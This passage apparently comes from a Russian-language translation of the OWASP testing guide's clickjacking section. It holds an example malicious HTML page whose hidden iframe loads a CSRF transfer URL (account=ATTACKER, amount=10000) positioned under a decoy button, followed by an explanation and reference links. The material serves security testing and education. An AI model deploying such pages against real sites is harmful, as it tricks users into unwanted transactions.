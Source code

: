 ```html
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```

С помощью CSS (обратите внимание на блок `#clickjacking`) мы можем замаскировать и соответствующим образом расположить iframe, чтобы он совмещался с кнопкой. Если жертва нажмет на кнопку "Click and go!" форма будет отправлена, и перевод завершен.

![Clickjacking Example Malicious Page 3](images/Clickjacking_example_malicious_page_3.png)\
*Рисунок 4.11.9-6: Пример вредоносной страницы с перехватом клика 3*

В представленном примере используется только базовая техника кликджекинга, а с помощью продвинутой можно заставить пользователя заполнить форму значениями, указанными злоумышленником.

## Ссылки

- [OWASP Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)
- [Wikipedia Clickjacking](https://en.wikipedia.org/wiki/Clickjacking)
- [Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites"](https://seclab.stanford.edu/websec/framebusting/framebust.pdf)
- [Атака типа clickjacking](https://learn.javascript.ru/clickjacking)
- [Атаки: кликджекинг](https://csplite.com/ru/csp295/)